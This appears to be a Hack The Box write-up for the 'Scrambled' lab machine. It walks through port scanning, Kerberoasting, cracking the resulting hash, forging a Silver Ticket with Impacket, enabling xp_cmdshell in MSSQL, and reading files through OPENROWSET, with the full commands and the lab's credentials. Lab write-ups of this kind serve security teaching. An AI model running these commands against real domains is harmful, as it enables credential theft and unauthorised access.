# [Scrambled](https://app.hackthebox.com/machines/scrambled)


```bash
nmap -p- --min-rate 10000 10.10.11.168 -Pn
```




After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389 10.10.11.168
```



I found a such interesting thing on web application.




It means, we can see SMB share via username and password (both of them).

I got possible username and password from this screenshot.




I added 'dc1.scrm.local' and 'scrm.local' into **'/etc/hosts'** file.


Let's try to connect SMB share via `smbclient.py` script of 'Impacket' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbclient.py -k scrm.local/ksimpson:ksimpson@dc1.scrm.local -dc-ip dc1.scrm.local
```




I just have access only to 'Public' share.




I read this PDF.




Let's try **Kerberoasting** via this user, for this I will use `GetUserSPNs.py` script of '**Impacket**' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-ip dc1.scrm.local -request   
```

It doesn't work, I need to add `-k` option which means use Kerberos authentication.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-ip dc1.scrm.local -request -k   
```

It doesn't work, I need to add `-dc-host` option due SMB problem.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -request -k 
```




Finally, it worked, let's crack this hash via `hashcat`.

```bash
hashcat -m 13100 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```




scrm.local/sqlsvc: Pegasus60


I tried this credentials to login, but it doesn't work. That's why I need to create ticket for this MSSQL service.


This attack called **'Silver Ticket Attack'**.

To create a Silver Ticket, an attacker needs:
The NTLM hash of the password for the service account;
The SID of the domain
The service principle name (SPN) associated with the account.


SPN=>MSSQLSvc/dc1.scrm.local:1433


To get NTLM hash of clear-text password, I need to do below command.

```bash
iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4
```




NTLM Hash=> b999a16500b87d17ec7f2e2a68778f05


To get SID of Domain, I will use `getPac.py` script of '**Impacket**' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/getPac.py -targetUser administrator scrm.local/ksimpson:ksimpson
```




SID of domain=> S-1-5-21-2743207045-1827831105-2542523200


Now, as we have all values, let's create Silver ticket via `ticketer.py` script of '**Impacket**' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/ticketer.py -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator
```




As we created our silver ticket (administrator.ccache), we can login into MSSQL.


I need to add this ticket (administrator.ccache) via `klist` command.
```bash
KRB5CCNAME=administrator.ccache klist
```



Again, I will use `mssqlclient.py` script of '**Impacket**' module by using ticket which we created.

```bash
KRB5CCNAME=administrator.ccache python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -k dc1.scrm.local
```




I tried command execution via commands `enable_xp_cmdshell` to enable command execution.

Then, I run commands via `xp_cmdshell {command}`.




I looked at privileges via `whoami /priv` command.




One key point is that MSSQL has a vulnerability about reading all files on machine, it means without looking at privilege of user, MSSQL shell can read any document.

It doesn't matter due to version of MSSQL.

Our target is like that we learn via `select @@version;` query.


I get a tip from this [blog](https://www.mssqltips.com/sqlservertip/1643/using-openrowset-to-read-large-files-into-sql-server/).




user.txt and root.txt

```bash
SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) MyFile

SELECT BulkColumn FROM OPENROWSET(BULK 'c:\users\miscsvc\desktop\user.txt', SINGLE_CLOB) MyFile
```

